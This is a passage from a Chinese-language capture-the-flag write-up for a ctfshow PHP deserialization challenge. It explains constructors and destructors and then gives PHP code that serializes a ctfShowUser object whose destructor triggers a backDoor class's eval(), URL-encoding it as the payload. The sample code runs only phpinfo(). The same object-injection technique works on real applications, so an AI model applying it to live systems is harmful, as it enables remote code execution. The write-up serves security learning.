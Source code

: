 这里增加了构造函数和析构函数，还有其他类，再说这里的` $user->login($username,$password);` 没啥用，用户名密码随便输。

* [构造函数](https://baike.baidu.com/item/%E6%9E%84%E9%80%A0%E5%87%BD%E6%95%B0/7478717?fr=aladdin)

  构造函数 ，是一种特殊的方法。主要用来在创建对象时初始化对象， 即为对象[成员变量](https://baike.baidu.com/item/成员变量)赋初始值，总与new[运算符](https://baike.baidu.com/item/运算符)一起使用在创建对象的语句中。特别的一个类可以有多个构造函数 ，可根据其参数个数的不同或参数类型的不同来区分它们 即构造函数的[重载](https://baike.baidu.com/item/重载)。

* [析构函数](https://baike.baidu.com/item/%E6%9E%90%E6%9E%84%E5%87%BD%E6%95%B0/9483718?fr=aladdin)

  析构函数(destructor) 与构造函数相反，当对象结束其[生命周期](https://baike.baidu.com/item/生命周期)，如对象所在的[函数](https://baike.baidu.com/item/函数/301912)已[调用](https://baike.baidu.com/item/调用/3351318)完毕时，系统自动执行析构函数。析构函数往往用来做“清理善后” 的工作（例如在建立对象时用new开辟了一片内存空间，delete会自动调用析构函数后释放[内存](https://baike.baidu.com/item/内存/103614)）。

这里很明显要利用 `eval($this->code);` ，那么正好 `ctfShowUser` 类里的析构函数可以帮我们利用到。

故构造

```php
<?php

error_reporting(0);
highlight_file(__FILE__);

class ctfShowUser{
    private $username='xxxxxx';
    private $password='xxxxxx';
    private $isVip=false;
    private $class = 'info';

    public function __construct(){
        $this->class=new backDoor();
    }
    public function login($u,$p){
        return $this->username===$u&&$this->password===$p;
    }
    public function __destruct(){
        $this->class->getInfo();
    }

}

class info{
    private $user='xxxxxx';
    public function getInfo(){
        return $this->user;
    }
}

class backDoor{
    private $code="phpinfo();";
    public function getInfo(){
        eval($this->code);
    }
}

$user = new ctfShowUser();
echo urlencode(serialize($user));
```
